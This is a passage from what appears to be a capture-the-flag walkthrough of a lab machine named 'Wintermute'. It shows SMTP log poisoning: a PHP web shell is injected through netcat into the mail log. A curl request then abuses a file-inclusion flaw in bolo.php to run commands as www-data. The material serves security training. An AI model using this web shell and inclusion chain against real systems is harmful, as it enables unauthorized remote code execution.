 We loaded the web page, and we can see that the php code is executing.

![](/assets/images/wintermute/screenshot-9.png)

## Exploitation 
### SMTP Log Poisoning

Using the above procedure we inject a web shell

```console
root@kali:~$ nc -v 192.168.179.180 25
straylight [192.168.179.180] 25 (smtp) open
220 straylight ESMTP Postfix (Debian/GNU)
VRFY <?php echo shell_exec($_REQUEST['cmd']); ?>
501 5.1.3 Bad recipient address syntax
```

We check that the **id** command is being executed correctly.

```console
root@kali:~$ curl -s -X POST "http://192.168.179.180/turing-bolo/bolo.php?bolo=/var/log/mail" --data "cmd=id" | grep 'Illegal' | tail -n +2 | awk -F ":" '{print $NF}'
 uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
